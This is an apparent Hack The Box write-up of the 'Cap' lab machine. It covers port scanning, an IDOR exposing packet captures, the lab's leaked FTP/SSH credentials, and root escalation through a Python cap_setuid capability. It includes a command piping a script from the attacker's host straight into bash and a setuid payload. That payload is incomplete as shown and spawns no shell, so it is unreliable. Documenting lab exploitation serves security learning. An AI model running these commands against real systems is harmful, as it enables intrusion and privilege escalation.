 ```yaml
---
layout: single
title: Cap - Hack The Box
excerpt: "Cap is an easy Linux machine where an IDOR vulnerability exposes network captures containing plaintext credentials, allowing initial access. Privilege escalation is achieved by exploiting a Linux capability to gain root."
date: 2024-10-20
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-cap/cap.jpg
  teaser_home_page: true
  icon: /blog/assets/images/hackthebox.webp
categories:
  - WriteUp
  - HTB
---
```



## Synopsis

Cap is an easy Linux machine running an HTTP server that performs administrative functions, including network captures. Improper controls lead to an Insecure Direct Object Reference (IDOR) vulnerability, allowing access to another user's capture. The capture contains plaintext credentials, which can be used to gain initial access. A Linux capability is then exploited to escalate privileges to root.

## Skills Required
- Web enumeration  
- Packet capture analysis  

## Skills Learned
- Exploiting IDOR vulnerabilities  
- Leveraging Linux capabilities  

## Enumeration

### Nmap Scan

ports=$(nmap -p- --min-rate=1000 -Pn -T4 10.10.10.245 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.245


Nmap reveals three open ports:
- **FTP (21)**
- **SSH (22)**
- **HTTP (80)**

### FTP
Anonymous access is disabled. Moving on to the HTTP server.

### HTTP
Port 80 runs Gunicorn, a Python-based HTTP server. The dashboard reveals administrative functions:
- **IP Config:** Displays `ifconfig` output.
- **Network Status:** Displays `netstat` output.
- **Security Snapshot:** Captures network traffic and provides a downloadable `.pcap` file.


## Exploitation

### Insecure Direct Object Reference (IDOR)
The URL scheme for packet captures is `/data/<id>`. By manually accessing `/data/0`, we retrieve a packet capture from another user.

### Foothold
Analyzing the capture in Wireshark reveals FTP traffic, including plaintext credentials:
- **Username:** nathan  
- **Password:** Buck3tH4TF0RM3!  

These credentials are valid for both FTP and SSH, granting access to the machine.


## Privilege Escalation

### Linux Capabilities
Running `linPEAS` reveals that `/usr/bin/python3.8` has the `cap_setuid` capability, allowing privilege escalation.

### Exploiting `cap_setuid`
The following Python code escalates to root:
import os
os.setuid(0)


### Steps:
1. Download `linpeas.sh` to the target machine:
   curl http://10.10.14.24/linpeas.sh | bash
   
2. Execute the Python payload to gain a root shell.

---

## Conclusion
Cap demonstrates the dangers of insecure access controls and misconfigured Linux capabilities. By exploiting IDOR and leveraging `cap_setuid`, we escalate from a low-privileged user to root.

--- 

This writeup is concise, structured, and highlights the key steps and vulnerabilities exploited during the penetration test.
